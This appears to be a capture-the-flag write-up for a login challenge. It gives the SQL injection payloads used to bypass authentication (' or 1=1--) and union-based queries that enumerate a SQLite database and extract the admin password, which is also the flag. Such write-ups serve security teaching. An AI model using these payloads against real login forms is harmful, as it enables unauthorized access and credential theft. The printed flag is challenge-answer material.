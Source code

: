 ### Solved by superkojiman

The flag is the admin user's real password. 
We can login using sql injection:

```
user: admin
pass: ' or 1=1--
```

This logs us in as admin but we still don't know the password. 

We can use union based injection to solve it. Turns out it's running sqlite: 

Return version:
```
' union select sqlite_version(),1--
```

Get tables. This returns the table "user":
```
' union select name,NULL from sqlite_master--
```

Get password of admin:
```
' union select password,NULL from user where user='admin'--
```

The above returns *You are MMA{cats_alice_band} user*. 
 
